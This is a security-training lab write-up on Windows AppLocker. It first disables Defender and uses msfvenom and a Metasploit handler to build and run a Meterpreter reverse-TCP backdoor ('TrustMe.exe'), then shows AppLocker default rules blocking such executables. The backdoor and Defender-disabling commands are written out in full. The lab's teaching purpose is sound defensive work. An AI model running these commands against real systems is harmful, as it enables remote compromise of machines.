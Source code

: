 <h3>AppLocker</h3>

---

_NOTE: All the procedures in this lab were created and learned from: [Getting Started in Security with BHIS and MITRE ATT&CK](https://www.antisyphontraining.com/event/getting-started-in-security-with-bhis-and-mitre-attck/2023-09-18/) taught by [John Strand](https://www.sans.org/profiles/john-strand/)_

---

**Tools/Technologies used:** Windows, Linux, Powershell, cmd, Applocker, Backdoor & Backdoor listener, and Metasploit

---

[Windows AppLocker](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/windows-defender-application-control/applocker/what-is-applocker) is a security feature in Windows that lets administrators control which applications and scripts can run on a computer or network by creating policies based on file attributes. It enhances security by allowing only authorized and trusted software to execute, reducing the risk of malware and unauthorized applications.<br>

---

Let's examine the scenario when AppLocker isn't active. Our objective is to establish a basic backdoor that connects to the Ubuntu system. It's important to note that our goal is not to demonstrate evasion of EDR or Endpoint products but rather to create a straightforward backdoor connection.

First, let's disable Defender for this session. Execute the following command from an Administrator PowerShell prompt:

```Set-MpPreference -DisableRealtimeMonitoring $true```

If you encounter any red error messages, don't worry; this indicates that Defender is not currently running.

To simplify this process, we have a couple of scripts available. Ensure that both your Windows and Linux systems are running, and let's begin by opening a Terminal as an Administrator.

![1](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/5c41c2da-866f-4ee4-9620-2b84a8acca23)
![1 5](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/bf18a584-6def-4450-ad8e-4ea2fd9e92ac)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![2](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/ef060e3f-f787-40dc-bcaa-608dabdb3894)

On your Linux system, please run the following command:

$`ifconfig`

![3](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/730a3081-5acd-4a55-94f1-3adf4aaa7975)

Please note the IP address of your Ethernet adapter.

Please note that my adaptor is called eth0 and my IP address is 172.17.32.119. Your IP Address and adapter name may be different.

Please note your IP address for the ADHD Linux system on a piece of paper:

Now, run the following commands to start a simple backdoor and backdoor listener:

$ `sudo su -` Please note, the adhd password is adhd.

`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444  -f exe -o /tmp/TrustMe.exe`

`cd /tmp`

`ls -l TrustMe.exe`

`cp ./TrustMe.exe /mnt/c/tools`

![3 1](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/a26a1b6d-945d-414e-9647-095a22f62080)

Now, let's start the Metasploit Handler. First, open a new Ubuntu Terminal by clicking the down carrot then selecting Ubuntu-18.04.

Let's become root.

`sudo su -`

root@DESKTOP-I1T2G01:/tmp# `msfconsole -q`

![3 2](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/27d921a5-657f-4946-b602-7ee897783d06)

msf5 > `use exploit/multi/handler`

msf5 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`

PAYLOAD => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > `set LHOST 172.26.19.133`

Remember, your IP will be different!

msf5 exploit(multi/handler) > `exploit`

It should look like this:

![4](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/c25b312a-6d42-4bf3-9094-e5d10d661944)

Now, let’s download the malware and run it!

First, let's open a Windows command prompt. Simply select the down carrot from the Windows Terminal and select Command Prompt.

Once the prompt is open, let's run the following commands to run the TrustMe.exe file.

`cd \tools`

Then, run it.

`.\TrustMe.exe`

Back at your Ubuntu prompt, you should have a metasploit session!

![5](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/8a6d314b-9e7e-4ed1-91e1-42f899b551a8)

Now, let’s stop this from happening!

First, let’s configure AppLocker. To do this we will need to access the Local Security Policy on your Windows System.

Simply press the Windows key (lower left hand of your keyboard, looks like a Windows Logo) then type Local Security. It should bring up a menu like the one below, please select Local Security Policy.

![6](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/a6918cd3-d8f7-4dde-9372-7f1b9190597e)

Next, we will need to configure AppLocker. To do this, please go to Security Settings > Application Control Policies and then AppLocker.

![7](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/2db93d97-4465-4eea-aacd-065ce487a71f)

In the right hand pane, you will see there are 0 Rules enforced for all policies. We will add in the default rules. We will choose the defaults because we are far less likely to brick a system.

![8](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/3ca06428-fd48-40d8-ab73-cc3807c26f3c)

Please select each of the above Rule groups (Executable, Windows Installer, Script and Packaged) and for each one, right click in the area that says “There are no items to show in this view.” and then select “Create Default Rules”

![9](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/ee9627c6-62ff-4db1-b9fe-9f595446c39d)

This should generate a subset of rules for each group. It should look similar to how it does below:

![10](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/4ed4648b-0533-4561-a69b-8ee050252334)

Next, we need to enforce the rules:

To do this you will need to select AppLocker on the far left pane. Then, you will need to select Configure rule enforcement. This will open a pop-up, you will need to check Configured for each set of rules

![11](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/009ace81-c4a7-4099-9d81-77ee996ed916)

Now, we will need to start the Application Identity service. This is done through pressing the Windows key and typing Services. This will bring up the Services App. Please select that and then double-click “Application Identity.”

![11 1](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/e6c7102a-2c60-409b-84fb-2cdc09cf5aa3)
![12](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/8005f161-ff7e-47b4-82c0-b1c23b8d4e22)

Once the Application Identity Properties dialog is open, please press the Start button. This will start the service.

![13](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/96cf5159-aa2f-467e-9137-42f8558afd63)

Next, open a command prompt and run gpupdate to force the policy change

C:\ `gpupdate /force`

![13 1](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/3e5f5109-0f64-4af6-8bfb-4db5215a01c9)

Next, log out as ADHD and log back in as allowlist.

You can do this easily by selecting the Windows icon and then the little white user icon:

![14](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/1a2599a6-b079-4226-87ea-7d322241d038)

The password is ADHD.

Now, navigate to the C:>\Tools directory with Windows Explorer and try to run some of the .exe files.

![15](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/fb6bdd70-08f6-4729-96a6-e5a5fb2e21dc)
You will see that most of the .exe files will generate an error.

You should get an error.







